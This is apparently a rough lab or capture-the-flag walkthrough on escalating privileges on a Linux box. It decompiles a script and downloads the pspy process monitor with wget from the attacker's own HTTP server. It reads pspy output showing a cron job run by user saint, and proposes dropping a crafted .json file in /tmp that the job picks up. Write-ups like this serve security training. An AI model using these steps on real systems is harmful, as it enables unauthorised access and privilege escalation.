 I can see the archive on python if i use this.
```
uncompyle6 syncer.pyc 
```
It doesn't work for me with uncompyle6 .. but I use an online tool and I did it ... finally 

Now he is going to enumerate process running on the computer with pspy.

We must open a server http in our computer with 
```
python3 -m http.server 80.
```
And if we want the archive we use
```
wget http://172.16.0.140/pspy64 
```
***IMPORTANT , IF YOU WANT TO GET AN ARCHIVE AND YOU HAVE NO PERMISSIONS OF USER, YOU MUST GO TO THE FOLDER /tmp AND DOWNLOAD THE FILE THERE***

Now we are giving execution permisions to the binary and then execute it


This process are executing periodically

![[Screenshot_2023-08-15_15_32_02.png]]

```
2023/08/16 00:54:02 CMD: UID=1000  PID=1166   | 
2023/08/16 00:54:02 CMD: UID=1000  PID=1165   | /bin/sh -c uname -p 2> /dev/null 
2023/08/16 00:55:53 CMD: UID=0     PID=1167   | 
2023/08/16 00:57:01 CMD: UID=1000  PID=1170   | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2023/08/16 00:57:01 CMD: UID=1000  PID=1169   | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2023/08/16 00:57:01 CMD: UID=0     PID=1168   | /usr/sbin/CRON -f 
2023/08/16 00:57:02 CMD: UID=1000  PID=1173   | /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2023/08/16 00:57:02 CMD: UID=1000  PID=1174   | 
2023/08/16 01:00:01 CMD: UID=1000  PID=1178   | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2023/08/16 01:00:01 CMD: UID=1000  PID=1177   | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2023/08/16 01:00:01 CMD: UID=0     PID=1176   | /usr/sbin/CRON -f 
2023/08/16 01:00:02 CMD: UID=1000  PID=1181   | /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2023/08/16 01:00:02 CMD: UID=1000  PID=1182   | uname -p 

```
the user saint is executing the "syncer.py"

in the syncer.py he is putting " from glob import glob."
And glob engloves all the archives on certain fromat. 
Unfortunately, he is using the foler 
```
(/tmp "*.json") 
```
so, if i put something, some script .json that execute itself with permissions root i can scale privileges
